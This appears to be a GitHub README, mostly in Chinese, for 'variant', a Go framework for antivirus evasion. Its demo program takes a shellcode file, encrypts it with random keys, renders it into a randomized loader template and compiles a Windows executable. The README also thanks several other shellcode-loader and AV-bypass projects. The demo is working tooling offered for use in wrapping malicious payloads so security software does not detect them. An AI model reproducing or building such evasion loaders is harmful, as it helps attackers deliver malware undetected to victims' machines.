 # variant

Go Anti-Virus Module Framework

## Description

项目`v2`更名为`variant`，现放出Demo

本项目会不断添加各种免杀的技术，但是**不适合直接不做任何修改的编译和使用**，即使是有随机特征的编译

### 特别说明

1. 学习Go免杀的代码集合，顺手做了模块化处理，**实际开发未结束，还在持续更新**；
2. 想要实现最好的免杀效果还需要自行修改渲染编译模板，代码提供了三种加载方式的渲染模板。

### 更新日志

1. 模块化配置
2. 编译功能更新
3. 渲染功能更新

## Demo

```go
package main

import (
	"fmt"
	"strings"
	"variant/build"
	"variant/enc"
	"variant/log"
	"variant/rand"
	"variant/tmpl"
)

func main() {
	// 定义模板渲染数据
	data := tmpl.Data{
		KeyName:    rand.RStrings(),
		KeyValue:   rand.LStrings(16),
		IvName:     rand.RStrings(),
		IvValue:    rand.LStrings(16),
		CipherText: rand.RStrings(),
		PlainText:  rand.RStrings(),
	}

	// 设置加密参数
	params := enc.Payload{
		PlainText: "tmpl/basetmpl/payload.bin",
		Key:       []byte(data.KeyValue),
		IV:        []byte(data.IvValue),
	}
	// 加密之后的 shellcode
	tmp, err := params.SKEASetKeyIv()
	if err != nil {
		log.Fatal(err)
	}
	data.Payload = tmp

	// 设置模板的渲染参数
	TOpts := tmpl.TOpts{
		TmplFile:     "tmpl/basetmpl/base.tmpl",
		OutputDir:    "output",
		OutputGoFile: fmt.Sprintf("%s.go", rand.RStrings()),
		Data:         data,
	}
	// 生成模板
	err = tmpl.BuildTmpl(TOpts)
	if err != nil {
		log.Fatal(err)
	}

	// 编译参数
	opts := build.COpts{
		GoFileName:    TOpts.OutputGoFile,
		ExeFileName:   fmt.Sprintf("%s.exe", strings.TrimSuffix(TOpts.OutputGoFile, ".go")),
		HideConsole:   false,
		CompileDetail: false,
		CompilePath:   "output",
	}
	// 编译
	if err = opts.Compile(); err != nil {
		log.Fatal(err)
	}
}
```

### Thanks

https://github.com/Ne0nd0g/go-shellcode

https://github.com/safe6Sec/GolangBypassAV

https://github.com/afwu/GoBypass

https://github.com/piiperxyz/AniYa

https://github.com/wumansgy/goEncrypt

https://github.com/TideSec/GoBypassAV

https://github.com/Pizz33/GobypassAV-shellcode

https://github.com/timwhitez/Doge-Gabh

后继添加 ……
